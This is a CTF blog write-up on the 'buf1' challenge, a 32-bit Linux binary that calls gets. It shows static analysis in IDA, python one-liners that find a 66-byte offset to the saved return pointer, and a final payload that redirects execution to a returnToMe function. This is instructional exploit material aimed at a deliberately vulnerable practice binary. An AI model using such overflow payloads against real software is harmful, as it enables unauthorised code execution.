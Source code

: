 buf1 - Another Buffer Overflow Challenge
========================================
date: 24/Feb/2014
summary: This is another buffer overflow challenge I found online. I posted a writeup on a similar challenge buf0 earlier and one for this challenge was long due. Finally today I got some time to document the solution.
tags: ctf

## Introduction

The binary can be obtained from here: [buf1](/static/files/posts_buf1_challenge/buf1.bin). Let's see what `file` command has to tell us about this challenge file:

```
$ file buf1.bin
buf1.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x746bc251bceb3d50b635362140ec851bf6f85317, not stripped
```

## Program Analysis and Testing

So this binary, like it's [counterpart](https://7h3ram.github.io/posts/20140106_buf0-challenge.html), is also an x86 ELF with symbols included. Let's run `strings` as well over this file:

```
$ strings buf1.bin
/lib/ld-linux.so.2
ktP=
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

There's the `gets` syscall and the `W00T!` string which confirm that this indeed is very similar to the previous challenge. Before we execute this file, let's do some static analysis on it using IDA:

![image](/static/files/posts_buf1_challenge/ida-start.png.webp)

Apart from the standard libc defintions and `main`, I see an interesting function called `returnToMe` at location 0x08048404. Let's follow this function and see what is it doing:

![image](/static/files/posts_buf1_challenge/ida-returntome.png.webp)

Let's figure out the size of the buffer to know how many bytes would be needed to reach saved EIP:

```
$ python -c 'print "A"*40' | ./buf1.bin
$ python -c 'print "A"*50' | ./buf1.bin
$ python -c 'print "A"*60' | ./buf1.bin
$ python -c 'print "A"*70' | ./buf1.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*65' | ./buf1.bin
$ python -c 'print "A"*66' | ./buf1.bin
Illegal instruction (core dumped)
$
$ python -c 'print "A"*67' | ./buf1.bin
Segmentation fault (core dumped)
```

So, the binary accepts max 66B before `gets` overwrites saved EIP. Now we can inject the buffer with dummy input followed by the address of `returnToMe` function:

```
$ python -c 'print "A"*66 + "\x04\x84\x04\x08"' | ./buf1.bin
W00T!
Segmentation fault (core dumped)
```

## Conclusion

Done. But this time the program didn't exit cleanly. However, the challenge was to get the `returnToMe` function called and it was done successfully. But it's not always about completing challenges. Let's take it as a learning opportunity and understand why, being so similar, both challenges exited in different manner. To understand this and other such minute intricacies of buffer overflows read my previous posts starting with: [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html).
